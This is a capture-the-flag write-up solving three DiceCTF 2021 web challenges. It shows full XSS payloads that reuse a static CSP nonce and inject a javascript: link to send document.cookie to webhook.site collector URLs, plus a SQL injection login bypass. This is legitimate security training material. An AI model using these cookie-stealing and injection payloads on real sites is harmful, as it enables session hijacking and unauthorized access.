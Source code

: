 **[web/Babier CSP](https://babier-csp.dicec.tf/)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Babier_CSP/index.js)  
In line 8, it sets
```python
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```python
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, view source, we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
Host a server using webhook.site, redirect and get the cookie
```javascript
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
Go to https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
dice{web_1s_a_stat3_0f_grac3_857720}
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Missing_Flavortext/index.js)  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```sql
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```

**[web/Web Utils](https://web-utils.dicec.tf/)**  
We have source code [app.zip](https://lhtthao0430.github.io/web/dice/Web_Utils/app)
In [app/route/api.js]((https://lhtthao0430.github.io/web/dice/Web_Utils/app/route/api.js), line 39 we have spread oparator
```javascript
database.addData({ type: 'paste', ...req.body, uid });
```
[View source](view-source:https://web-utils.dicec.tf/view/iuwnxMEs), in line 11 we have
```javascript
if (type === 'link') return window.location = data;
```
We can change the req.body when createPaste to
```json
{"data":"some data","type":"link"}
```
It will understand that is a link and run window.location = data;  
Host a server using webhook.site, redirect and get the cookie
```json
{"data":"javascript:location.href='https://webhook.site/cf48efac-98a3-46d2-83af-141e6d39f133?data='+document.cookie","type":"link"}
```
Send the link to [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils) and get the flag
```
dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```